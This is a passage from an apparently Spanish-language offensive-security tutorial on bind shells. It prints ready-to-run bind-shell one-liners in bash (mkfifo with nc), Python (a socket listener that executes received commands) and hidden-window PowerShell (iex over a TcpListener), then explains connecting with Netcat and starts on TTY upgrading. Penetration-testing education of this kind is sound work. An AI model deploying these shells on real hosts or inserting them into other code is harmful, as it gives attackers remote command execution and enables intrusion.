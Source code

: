 **Comando de enlace de shell**

Una vez más, podemos utilizar [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) para encontrar un comando adecuado para iniciar nuestro shell de enlace.

Nota: iniciaremos una conexión de escucha en el puerto '1234' del host remoto, con IP '0.0.0.0' para que podamos conectarnos a él desde cualquier lugar.

Los siguientes son comandos confiables que podemos usar para iniciar un shell de enlace:

Código: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Código: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Código: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

***

**Conexión Netcat**

Una vez que ejecutamos el comando bind shell, deberíamos tener un shell esperándonos en el puerto especificado. Ahora podemos conectarnos a él.

A diferencia de un `Reverse Shell`, si interrumpimos nuestra conexión a un shell de enlace por cualquier motivo, podemos volver a conectarnos a él y obtener otra conexión inmediatamente. Sin embargo, si el comando de shell de enlace se detiene por cualquier motivo, o si se reinicia el host remoto, aún perderíamos nuestro acceso al host remoto y tendremos que explotarlo nuevamente para obtener acceso.

## TTY&#x20;

Una vez que nos conectamos a un shell a través de Netcat, notaremos que solo podemos escribir comandos o utilizar la tecla de retroceso. Sin embargo, no podemos mover el cursor de texto hacia la izquierda o la derecha para editar nuestros comandos, ni acceder al historial de comandos con las teclas de flechas. Para habilitar estas funcionalidades, necesitamos actualizar nuestro TTY, asignando el TTY de nuestra terminal al TTY remoto.
